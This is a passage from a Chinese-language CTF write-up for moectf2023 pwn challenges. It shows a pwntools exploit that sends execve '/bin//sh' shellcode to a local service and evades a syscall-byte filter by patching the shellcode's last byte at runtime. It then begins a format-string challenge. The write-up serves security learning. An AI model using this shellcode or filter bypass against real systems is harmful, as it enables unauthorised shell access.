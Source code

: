 ![image-20230822140905364](./moectf2023-pwn-wp.assets/image-20230822140905364.png)

可以看到程序将b'\x0f\x05'过滤，也就是对应的syscall。我们可以将构造的shellcode的最后一个字节b'\x05'先替换成其它的任意字节绕过检测，在shellcode的前面补上一段汇编代码，将shellcode的最后一个字节给替换回来，这样运行时就会将shellcode复原。exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 33997)
parent_path = "/home/user/tmp/"

# 将shellcode的最后一个\x05替换成\x00
shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x00'
# 将\x05写入shellcode的最后一个字节
pad = asm("mov al, 0x05") + asm("mov [0x114514021], al")
pad += shellcode
# print(len(pad))
sh.sendline(pad)
sh.interactive()
```



## format_level0

用IDA打开，可以发现printf(name)存在格式化字符串漏洞。

![image-20230822175145554](./moectf2023-pwn-wp.assets/image-20230822175145554.png)
